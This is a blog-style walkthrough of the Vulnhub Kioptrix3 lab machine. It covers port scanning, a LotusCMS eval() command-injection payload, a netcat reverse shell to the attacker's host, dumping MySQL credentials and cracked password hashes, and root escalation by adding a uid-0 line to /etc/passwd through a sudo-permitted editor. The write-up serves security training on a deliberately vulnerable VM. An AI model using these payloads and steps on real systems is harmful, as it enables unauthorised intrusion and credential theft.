 ```yaml
---
layout: post
title: Kioptrix3 Vulnhub Walkthrough
categories: [Vulnhub]
tags: [ linux , RCE ]
toc: true
image:
  path: "/assets/images/kioptrix3/kio.png"
  alt: Vulnhub Kioptrix3
---
```


# Recon
## Nmap

nmap scan gave us only 2 ports : `80` and `22`:


```bash
nmap -p- -T4 192.168.1.14 -sC -sV -Pn

22/tcp open  ssh     OpenSSH 4.7p1 Debian 8ubuntu1.2 (protocol 2.0)
| ssh-hostkey: 
|   1024 30:e3:f6:dc:2e:22:5d:17:ac:46:02:39:ad:71:cb:49 (DSA)
|_  2048 9a:82:e6:96:e4:7e:d6:a6:d7:45:44:cb:19:aa:ec:dd (RSA)
80/tcp open  http    Apache httpd 2.2.8 ((Ubuntu) PHP/5.2.4-2ubuntu5.6 with Suhosin-Patch)
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
|_http-server-header: Apache/2.2.8 (Ubuntu) PHP/5.2.4-2ubuntu5.6 with Suhosin-Patch
|_http-title: Ligoat Security - Got Goat? Security ...

```
## Port 80

The homepage of port 80 , shows a login panel with the name of the CMS used , in this case it's `LotusCms`,
![](/assets/images/kioptrix3/login.png)


we tried different login bypasses techniques but nothing worked , so lets use `searchsploit`:




```
searchsploit LotusCMS                                                                                         
------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                                                                                       |  Path
------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
LotusCMS 3.0 - 'eval()' Remote Command Execution (Metasploit)                                                                        | php/remote/18565.rb
LotusCMS 3.0.3 - Multiple Vulnerabilities                                                                                            | php/webapps/16982.txt
------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
Shellcodes: No Results

```
# RCE

From the results there is an RCE exploit for this CMS , lets copy it to our working directory and analyse it: 

```
searchsploit -m php/remote/18565.rb

cat 18565.rb

```
After reading through the exploit it seems that it's sending a `POST` request with a parameter named `page` , lets do that using `Burpsuite`:

I tried many payloads to get an RCE but the one that worked for me is this , the `index` word is needed to make this work , we will know why when we read the code after reverseshell :

```
page=index');eval("system('whoami');");#
```
![](/assets/images/kioptrix3/RCE.png)

So now we have code execution , lets get a reverse shell using `nc`

## Shell as www-data
```bash
page=index');eval("system('nc+-e+/bin/bash+192.168.1.8+9001');");#
```
On our attacker box we set up a Netcat listener , and we got a foothold on the box :

```bash
www-data@Kioptrix3:/home/www/kioptrix3.com$ whoami
www-data

```
Viewing the local network status using this command  reveals an `Mysql` instance running locally :

```
netstat -antup 

127.0.0.1:3309

```
IN order to exploit it further we need valid creds , so lets search php files to find some:


```
grep -Ri 'sql' . --color=auto

./gallery/gconfig.php:  $GLOBALS["gallarific_mysql_server"] = "localhost";
./gallery/gconfig.php:  $GLOBALS["gallarific_mysql_database"] = "gallery";
./gallery/gconfig.php:  $GLOBALS["gallarific_mysql_username"] = "root";
./gallery/gconfig.php:  $GLOBALS["gallarific_mysql_password"] = "fuckeyou";

```
Bingo , now we have valid creds as `root` to `Mysql` instance, lets view databases informations and dump tables data :
```
www-data@Kioptrix3:/home/www/kioptrix3.com$ mysql -uroot -pfuckeyou
Welcome to the MySQL monitor.  Commands end with ; or \g.
Your MySQL connection id is 7
Server version: 5.0.51a-3ubuntu5.4 (Ubuntu)

Type 'help;' or '\h' for help. Type '\c' to clear the buffer.

mysql> show databases;
+--------------------+
| Database           |
+--------------------+
| information_schema | 
| gallery            | 
| mysql              | 
+--------------------+
3 rows in set (0.00 sec)

mysql> use gallery;
Reading table information for completion of table and column names
You can turn off this feature to get a quicker startup with -A

Database changed
mysql> show tables;
+----------------------+
| Tables_in_gallery    |
+----------------------+
| dev_accounts         | 
| gallarific_comments  | 
| gallarific_galleries | 
| gallarific_photos    | 
| gallarific_settings  | 
| gallarific_stats     | 
| gallarific_users     | 
+----------------------+
7 rows in set (0.00 sec)

mysql> select * from dev_accounts;
+----+------------+----------------------------------+
| id | username   | password                         |
+----+------------+----------------------------------+
|  1 | dreg       | 0d3eccfb887aabd50f243b3f155c0f85 | 
|  2 | loneferret | 5badcaf789d3d1d09794d8f021f40f0e | 
+----+------------+----------------------------------+

```
## Shell as Loneferret
we use crackstation to find these hashes and put them in our creds file : 

```
dreg:Mast3r
loneferret:starwars
```
we can now switch our user to `loneferret` , or we can connect with it through `ssh` since it is open .

```
 su loneferret
Password: 
loneferret@Kioptrix3:/home/www/kioptrix3.com$ 

```
using `sudo -l`, we see that this user can run a command called `ht`, searching around , i found it's an old editor . So how can we abuse it to escacalate our privileges 



```bash

sudo -l
User loneferret may run the following commands on this host:
    (root) NOPASSWD: !/usr/bin/su
    (root) NOPASSWD: /usr/local/bin/ht
```

## Privesc
An easy method is to use it to edit the `/etc/passwd` file and add our root made user `levay` , using this line :

`
levay:$1$wxlphFbS$w4ZyKO.rbUpYGdps2TvNn0:0:0:levay:/home/levay:/bin/bash
`
lets do that :

we run `sudo /usr/local/bin/ht`  and type `loneferret` password , we click `alt+f` to open `/etc/passwd` 

![](/assets/images/kioptrix3/open.png)

after that we copy and paste our line in the last line :

![](/assets/images/kioptrix3/add.png)

and to quit we click `alt+f` and choose save and then quit .

we switch now our user to `levay` and we are `root `:

```
su levay
Password: 
root@Kioptrix3:/home/loneferret# id
uid=0(root) gid=0(root) groups=0(root)
root@Kioptrix3:/home/loneferret# 

```

## After root code analyses:

I was first confused why the post request using `page` parameter require the index word for the RCE to work , but after shell and reaeding the file `/core/lib/router.php`we can see Inside the function, it retrieves two values from the URL parameters, specifically the "page" and "system" parameters, using a custom method called "getInputString." The default values for these parameters are set to "index" for "page" and "Page" for "system."

so index value is by default needed for this to work 
```
 $page = $this->getInputString("page", "index");

                //Get plugin request (if any)
                $plugin = $this->getInputString("system", "Page");

      

                        //Fetch the page and get over loading cache etc...
                        eval("new ".$plugin."Starter('".$page."');");
```
